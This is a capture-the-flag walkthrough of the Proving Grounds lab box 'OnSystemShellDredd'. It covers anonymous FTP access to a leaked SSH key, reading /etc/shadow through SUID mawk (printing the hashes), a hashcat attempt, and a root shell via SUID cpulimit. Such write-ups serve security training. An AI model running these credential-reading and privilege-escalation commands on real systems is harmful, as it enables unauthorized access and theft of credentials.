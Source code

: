 # OnSystemShellDredd
**Date:** July 25th 2022

**Author:** j.info

**Link:** [**Proving Grounds**](https://portal.offensive-security.com/proving-grounds/play) on Offensive Security

**PG Difficulty Rating:** Easy

<br>

![](images/ossd0.png)

<br>

## Objectives
- local.txt flag
- proof.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 192.168.208.130`

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
```

An additional all ports scan shows us:

```
PORT      STATE SERVICE VERSION
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
```

<br>

### FTP Digging

`ftp 192.168.208.130`

```
Connected to 192.168.208.130.
220 (vsFTPd 3.0.3)
Name (192.168.208.130:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
229 Entering Extended Passive Mode (|||64972|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        115          4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .hannah
226 Directory send OK.
ftp> cd .hannah
250 Directory successfully changed.
ftp> ls -al
229 Entering Extended Passive Mode (|||27539|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
-rwxr-xr-x    1 0        0            1823 Aug 06  2020 id_rsa
226 Directory send OK.
ftp> get id_rsa
local: id_rsa remote: id_rsa
229 Entering Extended Passive Mode (|||42135|)
150 Opening BINARY mode data connection for id_rsa (1823 bytes).
100% |***********************************************************|  1823       66.86 MiB/s    00:00 ETA
226 Transfer complete.
1823 bytes received in 00:00 (55.34 KiB/s)
```

Logging into the FTP server as anonymous shows us a single hidden directory that looks like a username and inside it we find a private id_rsa key which I download.

<br>

## System Access

I change the permissions on the id_rsa file with `chmod 400 id_rsa`.

And connect over as user **hannah**:

`ssh -i id_rsa hannah@192.168.208.130 -p 61000`

```
Linux ShellDredd 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Jul 25 23:03:53 2022 from 192.168.49.208
hannah@ShellDredd:~$ whoami
hannah
hannah@ShellDredd:~$ hostname
ShellDredd
```

<br>

## System Enumeration

I check `sudo -l` and get a message that the sudo command isn't found.

Looking in the hannah home directory shows us our first flag **local.txt**:

`wc -c /home/hannah/local.txt`

```
33 /home/hannah/local.txt
```

We have 2 users on the system with shells:

`cat /etc/passwd | grep bash`

```
root:x:0:0:root:/root:/bin/bash
hannah:x:1000:1000:hannah,,,:/home/hannah:/bin/bash
```

I look for files with SUID set and find a couple out of the norm:

```
/usr/bin/mawk
/usr/bin/cpulimit
```

```
-rwsr-sr-x 1 root root 121976 Mar 23  2012 /usr/bin/mawk
-rwsr-sr-x 1 root root 23072 Jun 23  2017 /usr/bin/cpulimit
```

With **mawk** having SUID set we can read files we shouldn't be able to:

`mawk '//' "/etc/shadow"`

```
root:$6$pUGgTFAG7pM5Sy5M$SXmRNf2GSZhId7mGCsFwJ4UCweCXGKSMIO8/qDM6NsiKckV8UZeZefDYw2CL2uAEwawIufKMv/e1Q6YDyTeqp0:18656:0:99999:7:::
hannah:$6$y8GL381zxgwD7gRr$AhERcqNym1qlATj9Rl6RmYXyLoxl2q1purtp9d.tpWEJTmYOUJORrve1ohmQjJtNRfzfvcZXyzMLk89Ir/g5X.:18656:0:99999:7:::
```

I know I can use cpulimit to get root but wanted to try and crack these passwords anyways:

`hashcat -m 1800 -w 3 -D 1,2 -O hash.txt rockyou.txt`

But, neither end up cracking.

<br>

## Root

I use our other exploitable SUID file to escalate over to root:

`cpulimit -l 100 -f -- /bin/sh -p`

```
hannah@ShellDredd:/$ cpulimit -l 100 -f -- /bin/sh -p
Process 3828 detected
# whoami
root
# hostname
ShellDredd
```

Note: you can lookup SUID exploits on [**GTFOBins**](https://gtfobins.github.io/gtfobins/cpulimit/#suid)

We find our final flag in the **/root** directory:

`wc -c /root/proof.txt`

```
33 /root/proof.txt
```

<br>

With that we've completed this CTF!

![](images/ossd1.png)

<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Finding an open FTP port that allowed anonymous login
- On the FTP server a private SSH key was found that allowed us to login to the system
- A couple files with the SUID bit set (mawk and cpulimit) allowed us to do things we shouldn't have been able to, including escalating our privileges to root

<br>

Many thanks to:
- [**Offensive Security**](https://www.offensive-security.com/) for hosting this CTF
